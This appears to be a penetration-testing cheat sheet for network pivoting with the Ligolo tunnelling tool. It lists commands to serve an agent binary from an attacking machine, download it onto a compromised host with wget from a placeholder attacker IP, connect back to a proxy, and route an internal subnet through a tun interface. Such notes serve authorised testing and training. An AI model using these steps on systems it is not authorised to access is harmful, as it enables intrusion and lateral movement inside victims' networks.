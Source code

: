 1. Run Python web server from attacking machine. Host the 'agent.exe/agent' file.
`python3 -m http.server 8000`

2. Run from the compromised host.
`wget http://<AttackingIP>:<AttackingPort>/agent`

3. Run from your attacking machine.
`sudo ./proxy -selfcert`

4. Run from the compromised host. (If compromised host = Linux)
`sudo chmod +x ./agent`
`sudo ./agent -connect <AttackingIP>:11601 -ignore-cert`

If (compromised host = Windows)
`./agent.exe -connect <AttackingIP>:11601 -ignore-cert`

5. Run from Ligolo Proxy (From Attacking Machine)
`session`
`1`
`ifconfig`

In the above ifconfig command, copy the IP address of the interface. Let us assume the IP is 172.16.1.100

6. Run the following commands on the attacking machine to set up the interface.
`sudo modprobe tun`
`sudo ip tuntap add mode tun dev ligolo`
`sudo ip route add 172.16.1.0/24 dev ligolo`
`ip route list`

## Do you see the Ligolo interface now?
